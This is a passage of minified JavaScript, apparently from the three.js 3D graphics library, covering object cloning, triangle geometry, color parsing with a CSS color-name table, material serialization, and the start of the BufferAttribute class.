n.object=i,n;function a(t){const e=[];for(const n in t){const i=t[n];delete i.metadata,e.push(i)}return e}}clone(t){return(new this.constructor).copy(this,t)}copy(t,e=!0){if(this.name=t.name,this.up.copy(t.up),this.position.copy(t.position),this.rotation.order=t.rotation.order,this.quaternion.copy(t.quaternion),this.scale.copy(t.scale),this.matrix.copy(t.matrix),this.matrixWorld.copy(t.matrixWorld),this.matrixAutoUpdate=t.matrixAutoUpdate,this.matrixWorldAutoUpdate=t.matrixWorldAutoUpdate,this.matrixWorldNeedsUpdate=t.matrixWorldNeedsUpdate,this.layers.mask=t.layers.mask,this.visible=t.visible,this.castShadow=t.castShadow,this.receiveShadow=t.receiveShadow,this.frustumCulled=t.frustumCulled,this.renderOrder=t.renderOrder,this.animations=t.animations.slice(),this.userData=JSON.parse(JSON.stringify(t.userData)),!0===e)for(let e=0;e<t.children.length;e++){const n=t.children[e];this.add(n.clone())}return this}}Zn.DEFAULT_UP=new Xe(0,1,0),Zn.DEFAULT_MATRIX_AUTO_UPDATE=!0,Zn.DEFAULT_MATRIX_WORLD_AUTO_UPDATE=!0;const $n=new Xe,Jn=new Xe,Qn=new Xe,ti=new Xe,ei=new Xe,ni=new Xe,ii=new Xe,ri=new Xe,ai=new Xe,oi=new Xe;class si{constructor(t=new Xe,e=new Xe,n=new Xe){this.a=t,this.b=e,this.c=n}static getNormal(t,e,n,i){i.subVectors(n,e),$n.subVectors(t,e),i.cross($n);const r=i.lengthSq();return r>0?i.multiplyScalar(1/Math.sqrt(r)):i.set(0,0,0)}static getBarycoord(t,e,n,i,r){$n.subVectors(i,e),Jn.subVectors(n,e),Qn.subVectors(t,e);const a=$n.dot($n),o=$n.dot(Jn),s=$n.dot(Qn),l=Jn.dot(Jn),c=Jn.dot(Qn),h=a*l-o*o;if(0===h)return r.set(0,0,0),null;const u=1/h,d=(l*s-o*c)*u,p=(a*c-o*s)*u;return r.set(1-d-p,p,d)}static containsPoint(t,e,n,i){return null!==this.getBarycoord(t,e,n,i,ti)&&(ti.x>=0&&ti.y>=0&&ti.x+ti.y<=1)}static getInterpolation(t,e,n,i,r,a,o,s){return null===this.getBarycoord(t,e,n,i,ti)?(s.x=0,s.y=0,"z"in s&&(s.z=0),"w"in s&&(s.w=0),null):(s.setScalar(0),s.addScaledVector(r,ti.x),s.addScaledVector(a,ti.y),s.addScaledVector(o,ti.z),s)}static isFrontFacing(t,e,n,i){return $n.subVectors(n,e),Jn.subVectors(t,e),$n.cross(Jn).dot(i)<0}set(t,e,n){return this.a.copy(t),this.b.copy(e),this.c.copy(n),this}setFromPointsAndIndices(t,e,n,i){return this.a.copy(t[e]),this.b.copy(t[n]),this.c.copy(t[i]),this}setFromAttributeAndIndices(t,e,n,i){return this.a.fromBufferAttribute(t,e),this.b.fromBufferAttribute(t,n),this.c.fromBufferAttribute(t,i),this}clone(){return(new this.constructor).copy(this)}copy(t){return this.a.copy(t.a),this.b.copy(t.b),this.c.copy(t.c),this}getArea(){return $n.subVectors(this.c,this.b),Jn.subVectors(this.a,this.b),.5*$n.cross(Jn).length()}getMidpoint(t){return t.addVectors(this.a,this.b).add(this.c).multiplyScalar(1/3)}getNormal(t){return si.getNormal(this.a,this.b,this.c,t)}getPlane(t){return t.setFromCoplanarPoints(this.a,this.b,this.c)}getBarycoord(t,e){return si.getBarycoord(t,this.a,this.b,this.c,e)}getInterpolation(t,e,n,i,r){return si.getInterpolation(t,this.a,this.b,this.c,e,n,i,r)}containsPoint(t){return si.containsPoint(t,this.a,this.b,this.c)}isFrontFacing(t){return si.isFrontFacing(this.a,this.b,this.c,t)}intersectsBox(t){return t.intersectsTriangle(this)}closestPointToPoint(t,e){const n=this.a,i=this.b,r=this.c;let a,o;ei.subVectors(i,n),ni.subVectors(r,n),ri.subVectors(t,n);const s=ei.dot(ri),l=ni.dot(ri);if(s<=0&&l<=0)return e.copy(n);ai.subVectors(t,i);const c=ei.dot(ai),h=ni.dot(ai);if(c>=0&&h<=c)return e.copy(i);const u=s*h-c*l;if(u<=0&&s>=0&&c<=0)return a=s/(s-c),e.copy(n).addScaledVector(ei,a);oi.subVectors(t,r);const d=ei.dot(oi),p=ni.dot(oi);if(p>=0&&d<=p)return e.copy(r);const f=d*l-s*p;if(f<=0&&l>=0&&p<=0)return o=l/(l-p),e.copy(n).addScaledVector(ni,o);const m=c*p-d*h;if(m<=0&&h-c>=0&&d-p>=0)return ii.subVectors(r,i),o=(h-c)/(h-c+(d-p)),e.copy(i).addScaledVector(ii,o);const g=1/(m+f+u);return a=f*g,o=u*g,e.copy(n).addScaledVector(ei,a).addScaledVector(ni,o)}equals(t){return t.a.equals(this.a)&&t.b.equals(this.b)&&t.c.equals(this.c)}}const li={aliceblue:15792383,antiquewhite:16444375,aqua:65535,aquamarine:8388564,azure:15794175,beige:16119260,bisque:16770244,black:0,blanchedalmond:16772045,blue:255,blueviolet:9055202,brown:10824234,burlywood:14596231,cadetblue:6266528,chartreuse:8388352,chocolate:13789470,coral:16744272,cornflowerblue:6591981,cornsilk:16775388,crimson:14423100,cyan:65535,darkblue:139,darkcyan:35723,darkgoldenrod:12092939,darkgray:11119017,darkgreen:25600,darkgrey:11119017,darkkhaki:12433259,darkmagenta:9109643,darkolivegreen:5597999,darkorange:16747520,darkorchid:10040012,darkred:9109504,darksalmon:15308410,darkseagreen:9419919,darkslateblue:4734347,darkslategray:3100495,darkslategrey:3100495,darkturquoise:52945,darkviolet:9699539,deeppink:16716947,deepskyblue:49151,dimgray:6908265,dimgrey:6908265,dodgerblue:2003199,firebrick:11674146,floralwhite:16775920,forestgreen:2263842,fuchsia:16711935,gainsboro:14474460,ghostwhite:16316671,gold:16766720,goldenrod:14329120,gray:8421504,green:32768,greenyellow:11403055,grey:8421504,honeydew:15794160,hotpink:16738740,indianred:13458524,indigo:4915330,ivory:16777200,khaki:15787660,lavender:15132410,lavenderblush:16773365,lawngreen:8190976,lemonchiffon:16775885,lightblue:11393254,lightcoral:15761536,lightcyan:14745599,lightgoldenrodyellow:16448210,lightgray:13882323,lightgreen:9498256,lightgrey:13882323,lightpink:16758465,lightsalmon:16752762,lightseagreen:2142890,lightskyblue:8900346,lightslategray:7833753,lightslategrey:7833753,lightsteelblue:11584734,lightyellow:16777184,lime:65280,limegreen:3329330,linen:16445670,magenta:16711935,maroon:8388608,mediumaquamarine:6737322,mediumblue:205,mediumorchid:12211667,mediumpurple:9662683,mediumseagreen:3978097,mediumslateblue:8087790,mediumspringgreen:64154,mediumturquoise:4772300,mediumvioletred:13047173,midnightblue:1644912,mintcream:16121850,mistyrose:16770273,moccasin:16770229,navajowhite:16768685,navy:128,oldlace:16643558,olive:8421376,olivedrab:7048739,orange:16753920,orangered:16729344,orchid:14315734,palegoldenrod:15657130,palegreen:10025880,paleturquoise:11529966,palevioletred:14381203,papayawhip:16773077,peachpuff:16767673,peru:13468991,pink:16761035,plum:14524637,powderblue:11591910,purple:8388736,rebeccapurple:6697881,red:16711680,rosybrown:12357519,royalblue:4286945,saddlebrown:9127187,salmon:16416882,sandybrown:16032864,seagreen:3050327,seashell:16774638,sienna:10506797,silver:12632256,skyblue:8900331,slateblue:6970061,slategray:7372944,slategrey:7372944,snow:16775930,springgreen:65407,steelblue:4620980,tan:13808780,teal:32896,thistle:14204888,tomato:16737095,turquoise:4251856,violet:15631086,wheat:16113331,white:16777215,whitesmoke:16119285,yellow:16776960,yellowgreen:10145074},ci={h:0,s:0,l:0},hi={h:0,s:0,l:0};function ui(t,e,n){return n<0&&(n+=1),n>1&&(n-=1),n<1/6?t+6*(e-t)*n:n<.5?e:n<2/3?t+6*(e-t)*(2/3-n):t}class di{constructor(t,e,n){return this.isColor=!0,this.r=1,this.g=1,this.b=1,this.set(t,e,n)}set(t,e,n){if(void 0===e&&void 0===n){const e=t;e&&e.isColor?this.copy(e):"number"==typeof e?this.setHex(e):"string"==typeof e&&this.setStyle(e)}else this.setRGB(t,e,n);return this}setScalar(t){return this.r=t,this.g=t,this.b=t,this}setHex(t,e=Bt){return t=Math.floor(t),this.r=(t>>16&255)/255,this.g=(t>>8&255)/255,this.b=(255&t)/255,Pe.toWorkingColorSpace(this,e),this}setRGB(t,e,n,i=Pe.workingColorSpace){return this.r=t,this.g=e,this.b=n,Pe.toWorkingColorSpace(this,i),this}setHSL(t,e,n,i=Pe.workingColorSpace){if(t=pe(t,1),e=de(e,0,1),n=de(n,0,1),0===e)this.r=this.g=this.b=n;else{const i=n<=.5?n*(1+e):n+e-n*e,r=2*n-i;this.r=ui(r,i,t+1/3),this.g=ui(r,i,t),this.b=ui(r,i,t-1/3)}return Pe.toWorkingColorSpace(this,i),this}setStyle(t,e=Bt){function n(e){void 0!==e&&parseFloat(e)<1&&console.warn("THREE.Color: Alpha component of "+t+" will be ignored.")}let i;if(i=/^(\w+)\(([^\)]*)\)/.exec(t)){let r;const a=i[1],o=i[2];switch(a){case"rgb":case"rgba":if(r=/^\s*(\d+)\s*,\s*(\d+)\s*,\s*(\d+)\s*(?:,\s*(\d*\.?\d+)\s*)?$/.exec(o))return n(r[4]),this.setRGB(Math.min(255,parseInt(r[1],10))/255,Math.min(255,parseInt(r[2],10))/255,Math.min(255,parseInt(r[3],10))/255,e);if(r=/^\s*(\d+)\%\s*,\s*(\d+)\%\s*,\s*(\d+)\%\s*(?:,\s*(\d*\.?\d+)\s*)?$/.exec(o))return n(r[4]),this.setRGB(Math.min(100,parseInt(r[1],10))/100,Math.min(100,parseInt(r[2],10))/100,Math.min(100,parseInt(r[3],10))/100,e);break;case"hsl":case"hsla":if(r=/^\s*(\d*\.?\d+)\s*,\s*(\d*\.?\d+)\%\s*,\s*(\d*\.?\d+)\%\s*(?:,\s*(\d*\.?\d+)\s*)?$/.exec(o))return n(r[4]),this.setHSL(parseFloat(r[1])/360,parseFloat(r[2])/100,parseFloat(r[3])/100,e);break;default:console.warn("THREE.Color: Unknown color model "+t)}}else if(i=/^\#([A-Fa-f\d]+)$/.exec(t)){const n=i[1],r=n.length;if(3===r)return this.setRGB(parseInt(n.charAt(0),16)/15,parseInt(n.charAt(1),16)/15,parseInt(n.charAt(2),16)/15,e);if(6===r)return this.setHex(parseInt(n,16),e);console.warn("THREE.Color: Invalid hex color "+t)}else if(t&&t.length>0)return this.setColorName(t,e);return this}setColorName(t,e=Bt){const n=li[t.toLowerCase()];return void 0!==n?this.setHex(n,e):console.warn("THREE.Color: Unknown color "+t),this}clone(){return new this.constructor(this.r,this.g,this.b)}copy(t){return this.r=t.r,this.g=t.g,this.b=t.b,this}copySRGBToLinear(t){return this.r=Le(t.r),this.g=Le(t.g),this.b=Le(t.b),this}copyLinearToSRGB(t){return this.r=De(t.r),this.g=De(t.g),this.b=De(t.b),this}convertSRGBToLinear(){return this.copySRGBToLinear(this),this}convertLinearToSRGB(){return this.copyLinearToSRGB(this),this}getHex(t=Bt){return Pe.fromWorkingColorSpace(pi.copy(this),t),65536*Math.round(de(255*pi.r,0,255))+256*Math.round(de(255*pi.g,0,255))+Math.round(de(255*pi.b,0,255))}getHexString(t=Bt){return("000000"+this.getHex(t).toString(16)).slice(-6)}getHSL(t,e=Pe.workingColorSpace){Pe.fromWorkingColorSpace(pi.copy(this),e);const n=pi.r,i=pi.g,r=pi.b,a=Math.max(n,i,r),o=Math.min(n,i,r);let s,l;const c=(o+a)/2;if(o===a)s=0,l=0;else{const t=a-o;switch(l=c<=.5?t/(a+o):t/(2-a-o),a){case n:s=(i-r)/t+(i<r?6:0);break;case i:s=(r-n)/t+2;break;case r:s=(n-i)/t+4}s/=6}return t.h=s,t.s=l,t.l=c,t}getRGB(t,e=Pe.workingColorSpace){return Pe.fromWorkingColorSpace(pi.copy(this),e),t.r=pi.r,t.g=pi.g,t.b=pi.b,t}getStyle(t=Bt){Pe.fromWorkingColorSpace(pi.copy(this),t);const e=pi.r,n=pi.g,i=pi.b;return t!==Bt?`color(${t} ${e.toFixed(3)} ${n.toFixed(3)} ${i.toFixed(3)})`:`rgb(${Math.round(255*e)},${Math.round(255*n)},${Math.round(255*i)})`}offsetHSL(t,e,n){return this.getHSL(ci),this.setHSL(ci.h+t,ci.s+e,ci.l+n)}add(t){return this.r+=t.r,this.g+=t.g,this.b+=t.b,this}addColors(t,e){return this.r=t.r+e.r,this.g=t.g+e.g,this.b=t.b+e.b,this}addScalar(t){return this.r+=t,this.g+=t,this.b+=t,this}sub(t){return this.r=Math.max(0,this.r-t.r),this.g=Math.max(0,this.g-t.g),this.b=Math.max(0,this.b-t.b),this}multiply(t){return this.r*=t.r,this.g*=t.g,this.b*=t.b,this}multiplyScalar(t){return this.r*=t,this.g*=t,this.b*=t,this}lerp(t,e){return this.r+=(t.r-this.r)*e,this.g+=(t.g-this.g)*e,this.b+=(t.b-this.b)*e,this}lerpColors(t,e,n){return this.r=t.r+(e.r-t.r)*n,this.g=t.g+(e.g-t.g)*n,this.b=t.b+(e.b-t.b)*n,this}lerpHSL(t,e){this.getHSL(ci),t.getHSL(hi);const n=fe(ci.h,hi.h,e),i=fe(ci.s,hi.s,e),r=fe(ci.l,hi.l,e);return this.setHSL(n,i,r),this}setFromVector3(t){return this.r=t.x,this.g=t.y,this.b=t.z,this}applyMatrix3(t){const e=this.r,n=this.g,i=this.b,r=t.elements;return this.r=r[0]*e+r[3]*n+r[6]*i,this.g=r[1]*e+r[4]*n+r[7]*i,this.b=r[2]*e+r[5]*n+r[8]*i,this}equals(t){return t.r===this.r&&t.g===this.g&&t.b===this.b}fromArray(t,e=0){return this.r=t[e],this.g=t[e+1],this.b=t[e+2],this}toArray(t=[],e=0){return t[e]=this.r,t[e+1]=this.g,t[e+2]=this.b,t}fromBufferAttribute(t,e){return this.r=t.getX(e),this.g=t.getY(e),this.b=t.getZ(e),this}toJSON(){return this.getHex()}*[Symbol.iterator](){yield this.r,yield this.g,yield this.b}}const pi=new di;di.NAMES=li;let fi=0;class mi extends oe{constructor(){super(),this.isMaterial=!0,Object.defineProperty(this,"id",{value:fi++}),this.uuid=ue(),this.name="",this.type="Material",this.blending=1,this.side=0,this.vertexColors=!1,this.opacity=1,this.transparent=!1,this.alphaHash=!1,this.blendSrc=204,this.blendDst=205,this.blendEquation=f,this.blendSrcAlpha=null,this.blendDstAlpha=null,this.blendEquationAlpha=null,this.blendColor=new di(0,0,0),this.blendAlpha=0,this.depthFunc=3,this.depthTest=!0,this.depthWrite=!0,this.stencilWriteMask=255,this.stencilFunc=519,this.stencilRef=0,this.stencilFuncMask=255,this.stencilFail=Yt,this.stencilZFail=Yt,this.stencilZPass=Yt,this.stencilWrite=!1,this.clippingPlanes=null,this.clipIntersection=!1,this.clipShadows=!1,this.shadowSide=null,this.colorWrite=!0,this.precision=null,this.polygonOffset=!1,this.polygonOffsetFactor=0,this.polygonOffsetUnits=0,this.dithering=!1,this.alphaToCoverage=!1,this.premultipliedAlpha=!1,this.forceSinglePass=!1,this.visible=!0,this.toneMapped=!0,this.userData={},this.version=0,this._alphaTest=0}get alphaTest(){return this._alphaTest}set alphaTest(t){this._alphaTest>0!=t>0&&this.version++,this._alphaTest=t}onBeforeRender(){}onBeforeCompile(){}customProgramCacheKey(){return this.onBeforeCompile.toString()}setValues(t){if(void 0!==t)for(const e in t){const n=t[e];if(void 0===n){console.warn(`THREE.Material: parameter '${e}' has value of undefined.`);continue}const i=this[e];void 0!==i?i&&i.isColor?i.set(n):i&&i.isVector3&&n&&n.isVector3?i.copy(n):this[e]=n:console.warn(`THREE.Material: '${e}' is not a property of THREE.${this.type}.`)}}toJSON(t){const e=void 0===t||"string"==typeof t;e&&(t={textures:{},images:{}});const n={metadata:{version:4.6,type:"Material",generator:"Material.toJSON"}};function i(t){const e=[];for(const n in t){const i=t[n];delete i.metadata,e.push(i)}return e}if(n.uuid=this.uuid,n.type=this.type,""!==this.name&&(n.name=this.name),this.color&&this.color.isColor&&(n.color=this.color.getHex()),void 0!==this.roughness&&(n.roughness=this.roughness),void 0!==this.metalness&&(n.metalness=this.metalness),void 0!==this.sheen&&(n.sheen=this.sheen),this.sheenColor&&this.sheenColor.isColor&&(n.sheenColor=this.sheenColor.getHex()),void 0!==this.sheenRoughness&&(n.sheenRoughness=this.sheenRoughness),this.emissive&&this.emissive.isColor&&(n.emissive=this.emissive.getHex()),void 0!==this.emissiveIntensity&&1!==this.emissiveIntensity&&(n.emissiveIntensity=this.emissiveIntensity),this.specular&&this.specular.isColor&&(n.specular=this.specular.getHex()),void 0!==this.specularIntensity&&(n.specularIntensity=this.specularIntensity),this.specularColor&&this.specularColor.isColor&&(n.specularColor=this.specularColor.getHex()),void 0!==this.shininess&&(n.shininess=this.shininess),void 0!==this.clearcoat&&(n.clearcoat=this.clearcoat),void 0!==this.clearcoatRoughness&&(n.clearcoatRoughness=this.clearcoatRoughness),this.clearcoatMap&&this.clearcoatMap.isTexture&&(n.clearcoatMap=this.clearcoatMap.toJSON(t).uuid),this.clearcoatRoughnessMap&&this.clearcoatRoughnessMap.isTexture&&(n.clearcoatRoughnessMap=this.clearcoatRoughnessMap.toJSON(t).uuid),this.clearcoatNormalMap&&this.clearcoatNormalMap.isTexture&&(n.clearcoatNormalMap=this.clearcoatNormalMap.toJSON(t).uuid,n.clearcoatNormalScale=this.clearcoatNormalScale.toArray()),void 0!==this.dispersion&&(n.dispersion=this.dispersion),void 0!==this.iridescence&&(n.iridescence=this.iridescence),void 0!==this.iridescenceIOR&&(n.iridescenceIOR=this.iridescenceIOR),void 0!==this.iridescenceThicknessRange&&(n.iridescenceThicknessRange=this.iridescenceThicknessRange),this.iridescenceMap&&this.iridescenceMap.isTexture&&(n.iridescenceMap=this.iridescenceMap.toJSON(t).uuid),this.iridescenceThicknessMap&&this.iridescenceThicknessMap.isTexture&&(n.iridescenceThicknessMap=this.iridescenceThicknessMap.toJSON(t).uuid),void 0!==this.anisotropy&&(n.anisotropy=this.anisotropy),void 0!==this.anisotropyRotation&&(n.anisotropyRotation=this.anisotropyRotation),this.anisotropyMap&&this.anisotropyMap.isTexture&&(n.anisotropyMap=this.anisotropyMap.toJSON(t).uuid),this.map&&this.map.isTexture&&(n.map=this.map.toJSON(t).uuid),this.matcap&&this.matcap.isTexture&&(n.matcap=this.matcap.toJSON(t).uuid),this.alphaMap&&this.alphaMap.isTexture&&(n.alphaMap=this.alphaMap.toJSON(t).uuid),this.lightMap&&this.lightMap.isTexture&&(n.lightMap=this.lightMap.toJSON(t).uuid,n.lightMapIntensity=this.lightMapIntensity),this.aoMap&&this.aoMap.isTexture&&(n.aoMap=this.aoMap.toJSON(t).uuid,n.aoMapIntensity=this.aoMapIntensity),this.bumpMap&&this.bumpMap.isTexture&&(n.bumpMap=this.bumpMap.toJSON(t).uuid,n.bumpScale=this.bumpScale),this.normalMap&&this.normalMap.isTexture&&(n.normalMap=this.normalMap.toJSON(t).uuid,n.normalMapType=this.normalMapType,n.normalScale=this.normalScale.toArray()),this.displacementMap&&this.displacementMap.isTexture&&(n.displacementMap=this.displacementMap.toJSON(t).uuid,n.displacementScale=this.displacementScale,n.displacementBias=this.displacementBias),this.roughnessMap&&this.roughnessMap.isTexture&&(n.roughnessMap=this.roughnessMap.toJSON(t).uuid),this.metalnessMap&&this.metalnessMap.isTexture&&(n.metalnessMap=this.metalnessMap.toJSON(t).uuid),this.emissiveMap&&this.emissiveMap.isTexture&&(n.emissiveMap=this.emissiveMap.toJSON(t).uuid),this.specularMap&&this.specularMap.isTexture&&(n.specularMap=this.specularMap.toJSON(t).uuid),this.specularIntensityMap&&this.specularIntensityMap.isTexture&&(n.specularIntensityMap=this.specularIntensityMap.toJSON(t).uuid),this.specularColorMap&&this.specularColorMap.isTexture&&(n.specularColorMap=this.specularColorMap.toJSON(t).uuid),this.envMap&&this.envMap.isTexture&&(n.envMap=this.envMap.toJSON(t).uuid,void 0!==this.combine&&(n.combine=this.combine)),void 0!==this.envMapRotation&&(n.envMapRotation=this.envMapRotation.toArray()),void 0!==this.envMapIntensity&&(n.envMapIntensity=this.envMapIntensity),void 0!==this.reflectivity&&(n.reflectivity=this.reflectivity),void 0!==this.refractionRatio&&(n.refractionRatio=this.refractionRatio),this.gradientMap&&this.gradientMap.isTexture&&(n.gradientMap=this.gradientMap.toJSON(t).uuid),void 0!==this.transmission&&(n.transmission=this.transmission),this.transmissionMap&&this.transmissionMap.isTexture&&(n.transmissionMap=this.transmissionMap.toJSON(t).uuid),void 0!==this.thickness&&(n.thickness=this.thickness),this.thicknessMap&&this.thicknessMap.isTexture&&(n.thicknessMap=this.thicknessMap.toJSON(t).uuid),void 0!==this.attenuationDistance&&this.attenuationDistance!==1/0&&(n.attenuationDistance=this.attenuationDistance),void 0!==this.attenuationColor&&(n.attenuationColor=this.attenuationColor.getHex()),void 0!==this.size&&(n.size=this.size),null!==this.shadowSide&&(n.shadowSide=this.shadowSide),void 0!==this.sizeAttenuation&&(n.sizeAttenuation=this.sizeAttenuation),1!==this.blending&&(n.blending=this.blending),0!==this.side&&(n.side=this.side),!0===this.vertexColors&&(n.vertexColors=!0),this.opacity<1&&(n.opacity=this.opacity),!0===this.transparent&&(n.transparent=!0),204!==this.blendSrc&&(n.blendSrc=this.blendSrc),205!==this.blendDst&&(n.blendDst=this.blendDst),this.blendEquation!==f&&(n.blendEquation=this.blendEquation),null!==this.blendSrcAlpha&&(n.blendSrcAlpha=this.blendSrcAlpha),null!==this.blendDstAlpha&&(n.blendDstAlpha=this.blendDstAlpha),null!==this.blendEquationAlpha&&(n.blendEquationAlpha=this.blendEquationAlpha),this.blendColor&&this.blendColor.isColor&&(n.blendColor=this.blendColor.getHex()),0!==this.blendAlpha&&(n.blendAlpha=this.blendAlpha),3!==this.depthFunc&&(n.depthFunc=this.depthFunc),!1===this.depthTest&&(n.depthTest=this.depthTest),!1===this.depthWrite&&(n.depthWrite=this.depthWrite),!1===this.colorWrite&&(n.colorWrite=this.colorWrite),255!==this.stencilWriteMask&&(n.stencilWriteMask=this.stencilWriteMask),519!==this.stencilFunc&&(n.stencilFunc=this.stencilFunc),0!==this.stencilRef&&(n.stencilRef=this.stencilRef),255!==this.stencilFuncMask&&(n.stencilFuncMask=this.stencilFuncMask),this.stencilFail!==Yt&&(n.stencilFail=this.stencilFail),this.stencilZFail!==Yt&&(n.stencilZFail=this.stencilZFail),this.stencilZPass!==Yt&&(n.stencilZPass=this.stencilZPass),!0===this.stencilWrite&&(n.stencilWrite=this.stencilWrite),void 0!==this.rotation&&0!==this.rotation&&(n.rotation=this.rotation),!0===this.polygonOffset&&(n.polygonOffset=!0),0!==this.polygonOffsetFactor&&(n.polygonOffsetFactor=this.polygonOffsetFactor),0!==this.polygonOffsetUnits&&(n.polygonOffsetUnits=this.polygonOffsetUnits),void 0!==this.linewidth&&1!==this.linewidth&&(n.linewidth=this.linewidth),void 0!==this.dashSize&&(n.dashSize=this.dashSize),void 0!==this.gapSize&&(n.gapSize=this.gapSize),void 0!==this.scale&&(n.scale=this.scale),!0===this.dithering&&(n.dithering=!0),this.alphaTest>0&&(n.alphaTest=this.alphaTest),!0===this.alphaHash&&(n.alphaHash=!0),!0===this.alphaToCoverage&&(n.alphaToCoverage=!0),!0===this.premultipliedAlpha&&(n.premultipliedAlpha=!0),!0===this.forceSinglePass&&(n.forceSinglePass=!0),!0===this.wireframe&&(n.wireframe=!0),this.wireframeLinewidth>1&&(n.wireframeLinewidth=this.wireframeLinewidth),"round"!==this.wireframeLinecap&&(n.wireframeLinecap=this.wireframeLinecap),"round"!==this.wireframeLinejoin&&(n.wireframeLinejoin=this.wireframeLinejoin),!0===this.flatShading&&(n.flatShading=!0),!1===this.visible&&(n.visible=!1),!1===this.toneMapped&&(n.toneMapped=!1),!1===this.fog&&(n.fog=!1),Object.keys(this.userData).length>0&&(n.userData=this.userData),e){const e=i(t.textures),r=i(t.images);e.length>0&&(n.textures=e),r.length>0&&(n.images=r)}return n}clone(){return(new this.constructor).copy(this)}copy(t){this.name=t.name,this.blending=t.blending,this.side=t.side,this.vertexColors=t.vertexColors,this.opacity=t.opacity,this.transparent=t.transparent,this.blendSrc=t.blendSrc,this.blendDst=t.blendDst,this.blendEquation=t.blendEquation,this.blendSrcAlpha=t.blendSrcAlpha,this.blendDstAlpha=t.blendDstAlpha,this.blendEquationAlpha=t.blendEquationAlpha,this.blendColor.copy(t.blendColor),this.blendAlpha=t.blendAlpha,this.depthFunc=t.depthFunc,this.depthTest=t.depthTest,this.depthWrite=t.depthWrite,this.stencilWriteMask=t.stencilWriteMask,this.stencilFunc=t.stencilFunc,this.stencilRef=t.stencilRef,this.stencilFuncMask=t.stencilFuncMask,this.stencilFail=t.stencilFail,this.stencilZFail=t.stencilZFail,this.stencilZPass=t.stencilZPass,this.stencilWrite=t.stencilWrite;const e=t.clippingPlanes;let n=null;if(null!==e){const t=e.length;n=new Array(t);for(let i=0;i!==t;++i)n[i]=e[i].clone()}return this.clippingPlanes=n,this.clipIntersection=t.clipIntersection,this.clipShadows=t.clipShadows,this.shadowSide=t.shadowSide,this.colorWrite=t.colorWrite,this.precision=t.precision,this.polygonOffset=t.polygonOffset,this.polygonOffsetFactor=t.polygonOffsetFactor,this.polygonOffsetUnits=t.polygonOffsetUnits,this.dithering=t.dithering,this.alphaTest=t.alphaTest,this.alphaHash=t.alphaHash,this.alphaToCoverage=t.alphaToCoverage,this.premultipliedAlpha=t.premultipliedAlpha,this.forceSinglePass=t.forceSinglePass,this.visible=t.visible,this.toneMapped=t.toneMapped,this.userData=JSON.parse(JSON.stringify(t.userData)),this}dispose(){this.dispatchEvent({type:"dispose"})}set needsUpdate(t){!0===t&&this.version++}onBuild(){console.warn("Material: onBuild() has been removed.")}}class gi extends mi{constructor(t){super(),this.isMeshBasicMaterial=!0,this.type="MeshBasicMaterial",this.color=new di(16777215),this.map=null,this.lightMap=null,this.lightMapIntensity=1,this.aoMap=null,this.aoMapIntensity=1,this.specularMap=null,this.alphaMap=null,this.envMap=null,this.envMapRotation=new In,this.combine=0,this.reflectivity=1,this.refractionRatio=.98,this.wireframe=!1,this.wireframeLinewidth=1,this.wireframeLinecap="round",this.wireframeLinejoin="round",this.fog=!0,this.setValues(t)}copy(t){return super.copy(t),this.color.copy(t.color),this.map=t.map,this.lightMap=t.lightMap,this.lightMapIntensity=t.lightMapIntensity,this.aoMap=t.aoMap,this.aoMapIntensity=t.aoMapIntensity,this.specularMap=t.specularMap,this.alphaMap=t.alphaMap,this.envMap=t.envMap,this.envMapRotation.copy(t.envMapRotation),this.combine=t.combine,this.reflectivity=t.reflectivity,this.refractionRatio=t.refractionRatio,this.wireframe=t.wireframe,this.wireframeLinewidth=t.wireframeLinewidth,this.wireframeLinecap=t.wireframeLinecap,this.wireframeLinejoin=t.wireframeLinejoin,this.fog=t.fog,this}}const _i=new Xe,vi=new ve;class yi{constructor(t,e,n=!1){if(Array.isArray(t))throw new TypeError("THREE.BufferAttribute: array should be a Typed Array.");this.isBufferAttribute=!0,this.name="",this.array=t,this.itemSize=e,this.count=void 0!==t?t.length/e:0,this.normalized=n,this.usage=35044,this._updateRange={offset:0,count:-1},this.updateRanges=[],this.gpuType=Z,this.version=0}onUploadCallback(){}set needsUpdate(t){!0===t&&this.version++}get updateRange(){return we("THREE.BufferAttribute: updateRange() is deprecated and will be removed in r169. Use addUpdateRange() instead."),this._updateRange}setUsage(t){return this.usage=t,this}addUpdateRange(t,e){this.updateRanges.push({start:t,count:e})}clearUpdateRanges(){this.updateRanges.length=0}copy(t){return this.name=t.name,this.array=new t.array.constructor(t.array),this.itemSize=t.itemSize,this.count=t.count,this.normalized=t.normalized,this.usage=t.usage,this.gpuType=t.gpuType,this}copyAt(t,e,n){t*=this.itemSize,n*=e.itemSize;for(let i=0,r=this.itemSize;i<r;i++)this.array[t+i]=e.array[n+i];return this}copyArray(t){return this.array.set(t),this}applyMatrix3(t){if(2===this.itemSize)for(let e=0,n=this.count;e<n;e++)vi.fromBufferAttribute(this,e),vi.applyMatrix3(t),this.setXY(e,vi.x,vi.y);else if(3===this.itemSize)for(let e=0,n=this.count;e<n;e++)_i.fromBufferAttribute(this,e),_i.applyMatrix3(t),this.setXYZ(e,_i.x,_i.y,_i.z);return this}applyMatrix4(t){for(let e=0,n=this.count;e<n;e++)_i.fromBufferAttribute(this,e),_i.applyMatrix4(t),this.setXYZ(e,_i.x,_i.y,_i.z);return this}applyNormalMatrix(t){for(let e=0,n=this.count;e<n;e++)_i.fromBufferAttribute(this,e),_i.applyNormalMatrix(t),this.setXYZ(e,_i.x,_i.y,_i.z);return this}transformDirection(t){for(let e=0,n=this.count;e<n;e++)_i.fromBufferAttribute(this,e),_i.transformDirection(t),this.setXYZ(e,_i.x,_i.y,_i.z);return this}set(t,e=0){return this.array.set(t,e),this}getComponent(t,e){let n=this.array[t*this.itemSize+e];return this.normalized&&(n=me(n,this.array)),n}setComponent(t,e,n){return this.normalized&&(n=ge(n,this.array)),this.array[t*this.itemSize+e]=n,this}getX(t){let e=this.array[t*this.itemSize];return this.normalized&&(e=me(e,this.array)),e}setX(t,e){return this.normalized&&(e=ge(e,this.array)),this.array[t*this.itemSize]=e,this}getY(t){let e=this.array[t*this.itemSize+1];return this.normalized&&(e=me(e,this.array)),e}setY(t,e){return this.normalized&&(e=ge(e,this.array)),this.array[t*this.itemSize+1]=e,this}getZ(t){let e=this.array[t*this.itemSize+2];return this.normalized&&(e=me(e,this.array)),e}setZ(t,e){return this.normalized&&(e=ge(e,this.array)),this.array[t*this.itemSize+2]=e,this}getW(t){let e=this.array[t*this.itemSize+3];return this.normalized&&(e=me(e,this.array)),e}setW(t,e){return this.normalized&&(e=ge(e,this.array)),this.array[t*this.itemSize+3]=e,this}setXY(t,e,n){return 